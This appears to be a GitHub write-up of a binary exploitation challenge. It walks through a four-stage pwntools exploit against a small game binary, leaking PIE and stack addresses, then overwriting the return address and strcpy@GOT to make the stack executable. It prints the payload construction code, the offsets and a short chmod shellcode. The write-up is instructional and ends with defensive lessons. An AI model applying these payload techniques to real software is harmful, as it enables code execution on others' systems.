

<!--
  Banner: save the banner image from the chat as `banner.png`
  and place it in this folder, then this line renders it on GitHub.
-->


---

# Advanced Memory Corruption: A Multi-Stage Binary Exploitation Case Study

> **Category:** Binary Exploitation &nbsp;|&nbsp; **Protections Bypassed:** PIE · Stack Canary · NX · Partial RELRO &nbsp;|&nbsp; **Tools:** Ghidra · GDB · pwntools

---

## Executive Summary

A sophisticated binary exploitation case study against a number-checking game with four layered modern protections. The attack required a carefully orchestrated four-stage chain — information leakage, pointer manipulation, return address overwrite, and GOT hijacking — to achieve arbitrary code execution without triggering a single protection.

**Key skills demonstrated:**
- Reverse engineering of protected binaries (Ghidra + GDB)
- Multi-stage exploit development with pwntools
- Memory layout analysis and precise pointer arithmetic
- Bypassing PIE, stack canaries, NX, and partial RELRO
- Position-independent shellcode development

---

## Target Analysis

### Binary Protections

| Protection | Status | Impact |
|---|---|---|
| PIE (Position Independent Executable) | ✅ Enabled | Code segment addresses randomized |
| Stack Canary | ✅ Enabled | Stack overflows detected |
| NX (No-Execute) | ✅ Enabled | Stack not directly executable |
| RELRO | ⚠️ Partial | GOT remains writable |

This protection profile represents a realistic modern binary — demanding more than a simple buffer overflow.

### Vulnerability Discovery

Reverse engineering revealed a critical flaw in the input processing loop. The binary reads user input into a buffer and performs a `strcpy` where both source and destination pointers can be controlled through a carefully crafted overflow:

```c
read(0, buffer + 4, 0x54);     // 84-byte read
strcpy(dest_ptr, src_ptr);     // Both pointers controllable
```

**Critical insight:** While the overflow is size-constrained (84 bytes), controlling both `strcpy` arguments creates a powerful arbitrary write primitive — transforming a limited overflow into a versatile exploitation tool.

### Memory Layout

```
┌─────────────────────────────────────────────────┐
│                 Higher Addresses                 │
├─────────────────────────────────────────────────┤
│  RBP        — Base Pointer                      │
├─────────────────────────────────────────────────┤
│  RBP-0x10   — Stack Canary        [PROTECTED]   │
├─────────────────────────────────────────────────┤
│  RBP-0x20   — dest_ptr (local_20) [CONTROLLABLE]│
├─────────────────────────────────────────────────┤
│  RBP-0x24   — Loop Counter        [CONTROLLABLE]│
├─────────────────────────────────────────────────┤
│  RBP-0x28   — src_ptr  (local_28) [CONTROLLABLE]│
├─────────────────────────────────────────────────┤
│  RBP-0x44   — Input Buffer (84 bytes max)       │
├─────────────────────────────────────────────────┤
│                 Lower Addresses                  │
└─────────────────────────────────────────────────┘
```

The canary sits at `RBP-0x10` — safely beyond the 28-byte reach needed to hit `src_ptr`. This means we can never directly overwrite the return address, but we can fully control the `strcpy` operation to do it for us.

---

## Exploitation Chain

The exploit runs in four stages, each building on the last.

```
Stage 1: Leak Binary Base    Stage 2: Leak Stack Addr
┌──────────────────────┐     ┌──────────────────────┐
│ Payload: "A"*24      │     │ Payload: "B"*24      │
│ + p32(-11)           │     │ + p32(-11)           │
│                      │     │                      │
│ src_ptr → .bss       │     │ src_ptr → stack var  │
│ Echo leaks base addr │     │ Echo leaks stack addr│
└──────────┬───────────┘     └──────────┬───────────┘
           └──────────┬─────────────────┘
                      ▼
          ┌───────────────────────┐
          │  Known:               │
          │  · binary_base        │
          │  · stack location     │
          │  · all offsets        │
          └──────────┬────────────┘
                     │
         ┌───────────┴───────────┐
         ▼                       ▼
Stage 3: RET Overwrite    Stage 4: GOT → RCE
┌─────────────────────┐   ┌──────────────────────┐
│ strcpy writes       │   │ Overwrite strcpy@GOT │
│ buffer addr into    │   │ → mprotect_stack     │
│ return address slot │   │ Stack becomes RWX    │
│                     │   │ Return → shellcode   │
│ ✓ Control flow      │   │ ✓ Code execution     │
└─────────────────────┘   └──────────────────────┘
```

### Stage 1 — Binary Base Leak (Defeating PIE)

The application echoes user input, creating an information disclosure path. By overflowing to `src_ptr` and pointing it at a `.bss` address, the echo leaks a known binary address:

```python
stage1 = b"A" * 24 + p32(0xfffffff5)
```

The value `0xfffffff5` (-11 as signed) serves two purposes simultaneously: it maintains the correct loop iteration path, and it positions the pointers for Stage 2. From the leaked `.bss` address, the binary base follows directly:

```python
binary_base = leaked_addr - 0x4080
```

PIE defeated.

### Stage 2 — Stack Address Leak

With the binary base known, the application's own logic is weaponized: under a specific code path, it places a stack-local address into `src_ptr`. Forcing that path:

```python
stage2 = b"B" * 24 + p32(0xfffffff5)
```

The echoed value reveals the exact stack location. All subsequent offsets are now calculable.

### Stage 3 — Return Address Setup

Both base and stack addresses are known. The third payload configures `strcpy` to write the buffer's address directly over the function's return address:

```python
stage3  = b"C" * 16
stage3 += p64(stack_addr - 0xf)     # src_ptr  → buffer address value
stage3 += p32(0xfffffff5)           # loop counter
stage3 += p64(stack_addr)           # maintain src_ptr
stage3 += p64(stack_addr + 0x34)    # dest_ptr → return address location
```

When the function returns, execution will redirect to our buffer. But the stack is still non-executable — that's Stage 4's job.

### Stage 4 — GOT Overwrite and Code Execution

Rather than building a ROP chain to call `mprotect`, a debugging artifact inside the binary is leveraged:

```c
void mprotect_stack(void) {
    void *page = (void*)((ulong)&local & 0xfffffffffffff000);
    mprotect(page, 0x1000, 7);   // RWX
}
```

This function makes the stack executable. The partial RELRO means `strcpy@GOT` is writable — so it's overwritten to point here:

```python
stage4  = shellcode
stage4 += b"D" * (16 - len(shellcode))
stage4 += p64(binary_base + mprotect_offset)   # src: mprotect_stack addr
stage4 += p32(0x0000000e)                      # final loop counter
stage4 += p64(stack_addr)
stage4 += p64(binary_base + strcpy_got_offset) # dest: strcpy@GOT
```

Execution sequence:
1. `strcpy` overwrites `strcpy@GOT` with the address of `mprotect_stack`
2. Next `strcpy` call redirects to `mprotect_stack` — stack becomes RWX
3. Function returns to buffer address (planted in Stage 3)
4. Shellcode executes

### Shellcode

Compact, position-independent, fits in under 16 bytes:

```asm
nop
push 0x66           ; 'f' — filename on stack
mov  rdi, rsp       ; RDI = pointer to filename
mov  si,  0x1ff     ; mode 0777
mov  al,  90        ; chmod syscall
syscall
```

---

## Protection Bypass Summary

| Protection | Bypass Technique |
|---|---|
| **PIE / ASLR** | Two-stage information leak via echo — `.bss` then stack |
| **Stack Canary** | Never triggered — 84-byte overflow stops short of `RBP-0x10` |
| **NX** | GOT overwrite redirects execution to built-in `mprotect_stack` |
| **Partial RELRO** | GOT remains writable — direct function pointer hijack |

---

## Offset Map

```
fuzzbuzz_addr  (leaked .bss)   = 0x5xxxxx404080
binary_base                    = fuzzbuzz_addr  - 0x4080
mprotect_stack                 = binary_base    + 0x1269
strcpy@GOT                     = binary_base    + 0x4020

local_38_addr  (leaked stack)  = 0x7fffffffXXXX
buffer_addr                    = local_38_addr  - 0x000f
return_addr    (location)      = local_38_addr  + 0x0034
```

All offsets verified statically in Ghidra and confirmed dynamically in GDB with pwndbg.

---

## Key Takeaways

**Constrained overflows are not dead ends.** An 84-byte overflow that can't reach the return address still becomes a full exploitation primitive when both `strcpy` arguments are reachable.

**PIE and ASLR are only as strong as their information isolation.** A single leaked pointer collapses the entire address randomization scheme. Any echo or print that reflects controlled memory is a potential bypass.

**Audit everything you ship.** The `mprotect_stack` function — almost certainly a debugging leftover — eliminated the need for a ROP chain entirely. Unused code in production binaries is attack surface.

**Multi-stage design is necessary against layered defenses.** No single payload could bypass all four protections simultaneously. Each stage created a condition that made the next stage possible.

---

## Tools

| Tool | Use |
|---|---|
| Ghidra | Static reverse engineering, offset discovery |
| GDB + pwndbg | Dynamic analysis, memory inspection, offset verification |
| pwntools | Exploit scripting, payload construction |
| Python 3 | Glue, automation |

---

## References

- Static analysis: Ghidra  
- Dynamic debugging: GDB with pwndbg extension  
- Exploit development: Python 3 + pwntools library
